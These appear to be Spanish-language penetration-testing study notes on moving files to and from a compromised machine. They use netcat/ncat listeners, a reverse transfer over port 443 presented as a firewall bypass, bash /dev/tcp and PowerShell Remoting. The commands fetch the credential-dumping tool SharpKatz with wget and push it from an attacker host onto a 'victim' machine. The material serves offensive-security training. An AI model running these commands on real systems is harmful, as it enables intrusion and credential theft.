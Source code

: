 ##  Miscellaneous File Transfer Methods

### Netcat / Ncat
**Compromised Machine - Listener** Recibir archivo
```
#Original Netcat de la maquina victima
nc -l -p 8000 > SharpKatz.exe

#Ncat (cerrar conexión automáticamente al transferir el archivo)
ncat -l -p 8000 --recv-only > SharpKatz.exe
```
**Attack Host - Send File** Enviar archivo
```
#Original Netcat - Cierra la conexion al terminar de enviar el archivo con "-q 0"
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
nc -q 0 192.168.49.128 8000 < SharpKatz.exe

#Ncat - Cierra la conexion al terminar de enviar el archivo con "--send-only"
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
**Reverse Direction (Firewall Bypass)**
```
#Attack Host Listener - Maquina atacante envia archivo por puerto 443
sudo nc -l -p 443 -q 0 < SharpKatz.exe
sudo ncat -l -p 443 --send-only < SharpKatz.exe

#Compromised Machine Receiver - Se recibe el archivo por el 443
nc 192.168.49.128 443 > SharpKatz.exe
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```
**Using /dev/tcp (sin nc/ncat instalado)**
> En caso de no tener Netcat o Ncat, Bash admite operaciones de lectura/escritura en un archivo de pseudodispositivo /dev/TCP/. Escribir en este archivo en particular hace que Bash abra una conexión TCP a host:port, y esta función se puede utilizar para transferencias de archivos
```
#Maquina atacante (Envio normal con nc o ncat)
#Compromised Machine recibe archivo con dev/tcp
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

### PowerShell Remoting (WinRM)
> En caso de que HTTP, HTTPS o SSH no esten disponibles
> Para crear una sesión remota de PowerShell en una computadora remota, necesitaremos acceso administrativo, ser miembro del grupo Remote Management Users o tener permisos explícitos para PowerShell Remoting en la configuración de la sesión

**Conexion de DC01 a DATABASE01** (Todo desde la PowerShell)

```PS
#Se testea la conexion al puerto de WinRM
Test-NetConnection -ComputerName DATABASE01 -Port 5985

#Se crea una sesion (Si no se tienen privilegios sobre la cuenta DATABASE01, tocaria ingresar las credenciales)
$Session = New-PSSession -ComputerName DATABASE01

#Se puede copiar un archivo de la maquina local DC01 a la victima usando el cmdlet 
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\

# Archivo remoto a maquina local
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```
